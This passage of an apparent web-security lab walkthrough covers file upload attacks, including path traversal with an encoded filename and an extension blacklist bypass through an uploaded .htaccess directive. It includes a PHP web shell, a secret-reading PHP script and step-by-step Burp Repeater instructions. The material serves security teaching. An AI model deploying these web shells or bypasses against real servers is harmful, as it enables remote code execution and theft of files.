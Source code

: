 ```<?php echo system($_GET['command']); ?> ```
    ```filename="..%2fexploit.php"```
10. Send the request and observe that the message now says *The file avatars/../exploit.php has been uploaded*. This indicates that the file name is being URL decoded by the server.
11. In the browser, go back to your account page.
12. In Burp's proxy history, find the *GET /files/avatars/..%2fexploit.php* request. Observe that Carlos's secret was returned in the response. This indicates that the file was uploaded to a higher directory in the filesystem hierarchy (*/files*), and subsequently executed by the server. Note that this means you can also request this file using *GET /files/exploit.php*.
13. Submit the secret to solve the lab.

## Insufficient blacklisting of dangerous file types

### Overriding the server configuration

As we discussed in the previous section, servers typically won't execute files unless they have been configured to do so. For example, before an Apache server will execute PHP files requested by a client, developers might have to add the following directives to their /etc/apache2/apache2.conf file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Apache servers, for example, will load a directory-specific configuration from a file called .htaccess if one is present.

Similarly, developers can make directory-specific configuration on IIS servers using a web.config file. This might include directives such as the following, which in this case allows JSON files to be served to users:

```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>
```

### Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

**Solution:**
1. Log in and upload an image as your avatar, then go back to your account page.
2. In Burp, go to **Proxy > HTTP history** and notice that your image was fetched using a *GET* request to ```/files/avatars/<YOUR-IMAGE>```. Send this request to Burp Repeater.
3. On your system, create a file called *exploit.php* containing a script for fetching the contents of Carlos's secret. For example:
    ```<?php echo file_get_contents('/home/carlos/secret'); ?>```
4. Attempt to upload this script as your avatar. The response indicates that you are not allowed to upload files with a *.php* extension.
5. In Burp's proxy history, find the *POST /my-account/avatar* request that was used to submit the file upload. In the response, notice that the headers reveal that you're talking to an Apache server. Send this request to Burp Repeater.
6. In Burp Repeater, go to the tab for the *POST /my-account/avatar* request and find the part of the body that relates to your PHP file. Make the following changes:
- Change the value of the filename parameter to .htaccess.
- Change the value of the Content-Type header to text/plain.
- Replace the contents of the file (your PHP payload) with the following Apache directive:
    ```AddType application/x-httpd-php .l33t```
This maps an arbitrary extension (.l33t) to the executable MIME type application/x-httpd-php. As the server uses the mod_php module, it knows how to handle this already.
7. Send the request and observe that the file was successfully uploaded.
8. Use the back arrow in Burp Repeater to return to the original request for uploading your PHP exploit.
```